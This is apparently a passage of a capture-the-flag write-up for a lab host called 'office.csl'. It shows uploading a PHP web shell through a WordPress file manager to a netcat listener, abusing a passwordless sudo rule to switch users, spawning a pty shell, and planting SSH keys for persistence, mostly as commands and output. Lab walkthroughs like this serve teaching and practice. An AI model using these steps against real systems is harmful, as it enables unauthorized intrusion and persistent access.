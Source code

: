 upload a php shell in the WP file manager and get access on a netcat listenner

(we could use the plugins too but we would have to format or php file as a wp plugin and zip it...choose any way)

Visit `http://office.csl/shell.php` to get inside..."the office"

```
$ cd /home/dwight
$ ls
access.txt
$ cat access.txt
access_flag_here
```

## privilege escalation

we have write permissions to his `.ssh` folder

```
$ sudo -l
Matching Defaults entries for www-data on office:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on office:
    (dwight) NOPASSWD: /bin/bash
```

and we can switch to dwight lol

```
$ sudo -u dwight /bin/bash
whoami
dwight
python3 -c 'import pty;pty.spawn("/bin/bash")'
dwight@office:~/.ssh$
```

Generate new `ssh keys` for dwight

```
dwight@office:~/.ssh$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/dwight/.ssh/id_rsa): 

Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/dwight/.ssh/id_rsa.
Your public key has been saved in /home/dwight/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:idjQRF1GQum8RxJ5md/0V8XxjbkP3RMJgHb0Dvg6Fo8 dwight@office
The key's randomart image is:
+---[RSA 2048]----+
|     .ooo=*=.. o+|
|     o  ===.. oo*|
|    . .o.+.o +o++|
|     + .+.o + .o=|
|    . o S= . .o.+|
|        . *    o.|
|         E .    .|
|        . .      |
|                 |
+----[SHA256]-----+
```
Add `public key` to `authorizzed_keys`